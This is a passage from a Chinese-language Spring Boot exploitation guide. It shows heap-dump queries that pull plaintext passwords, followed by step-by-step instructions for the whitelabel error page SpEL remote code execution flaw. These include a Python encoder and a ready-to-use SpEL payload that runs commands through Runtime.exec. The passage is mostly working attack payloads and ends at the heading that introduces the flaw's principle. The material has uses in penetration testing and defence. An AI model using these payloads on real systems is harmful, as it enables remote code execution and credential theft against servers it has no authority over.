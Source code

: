```
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

或

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))


```

辅助用 "password" 等关键词快速过滤分析，获得密码等相关敏感信息的明文。

二：远程代码执行
--------

> 由于 spring boot 相关漏洞可能是多个组件漏洞组合导致的，所以有些漏洞名字起的不太正规，以能区分为准

### 0x01：whitelabel error page SpEL RCE

#### 利用条件：

*   spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
    
*   至少知道一个触发 springboot 默认错误页面的接口及参数名
    

#### 利用方法：

##### 步骤一：找到一个正常传参处

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

##### 步骤二：执行 SpEL 表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```
# coding: utf-8

result = ""
target = 'open -a Calculator'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))

```

执行 `open -a Calculator` 命令

```
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

```

#### 漏洞原理：
